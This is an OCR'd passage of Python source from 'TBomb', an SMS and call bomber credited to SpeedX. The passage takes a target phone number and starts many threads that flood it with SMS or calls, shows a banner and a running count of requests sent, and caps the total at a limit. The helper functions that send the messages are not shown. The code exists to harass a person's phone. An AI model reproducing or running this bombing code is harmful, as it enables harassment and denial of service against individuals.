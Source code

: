     print('\n\n\tSeems Like You Have Given Wrong Inputs...')
    input('\n\t\tPress Enter To Exit...')
    banner()
    exit()
if type == 1:
    print("NOTE: Call Bomb Might Not Work on DND Activated Numbers...\n")
    print("\n\tPlease Don't Overload Call Bomb So That Is Would Work For Longer Period Of Time...")
    cbomb = True
if cbomb:
    chl = [100, 101, 102, 103, 104, 105, 106]
    start(pn, nm, dl, chl, str(cc))
    exit()
if nm == 0:
    nt = int(input("\tNumber Of Threads(10 to 20) : "))
    if nt <= 0 or nt >= 30:
        print('\tTBomb Shows Better Result in 10 to 25 Threads\n\t\tStill Continuing....')
    print("\n\nPlease Remember That This Is in Experimental Stage And Is Incredibly Fast...")
    t = [None] * nt
    print(random.choice(colors))
    print("\n\n==================================================================")
    print("                Gearing Up Bomber, please wait !!               ")
    print("     Please keep your data connection active during bombing !!    ")
    print("==================================================================")
    print("             Target Number       : +91", pn)
    print("             Number of Threads   : ", nt)
    print("             Delay               : ", dl)
    print("==================================================================")
    print("              Use this for fun, not for revenge !!                ")
    print("              This Bomber Was Created By SpeedX !!                ")
    print("==================================================================")
    print(W)
    input('\n\nPress CTRL+Z To STOP Bomber... \nPress Enter To Start Bomber...\n')
    os.system('rm *.xxx* > /dev/null 2>&1')
    print("\n\nStarting Bomb....")
    for i in range(nt):
        t[i] = threading.Thread(target=infinite, args=(pn, dl, ch, maxlim,))
        t[i].daemon = True
        t[i].start()
    time.sleep(2)
    ci = 0
    while True:
        ci += 1
        l = count_inf
        print("    Total Number of Requests Sent : ", l)
        if int(l) > maxlim:
            print('\n\n\tSorry Due To Misuse Of This Script We Only Provide ' +
                  str(maxlim) + ' SMS At Once...\n\n')
            input('Press Enter To Exit...')
            os.system('rm *xxx* > /dev/null 2>&1')
            banner()
            exit()
        time.sleep(1)
        if ci % 3 == 0:
            checkinternet()
else:
    start(pn, nm, dl, ch, '91')
    exit()
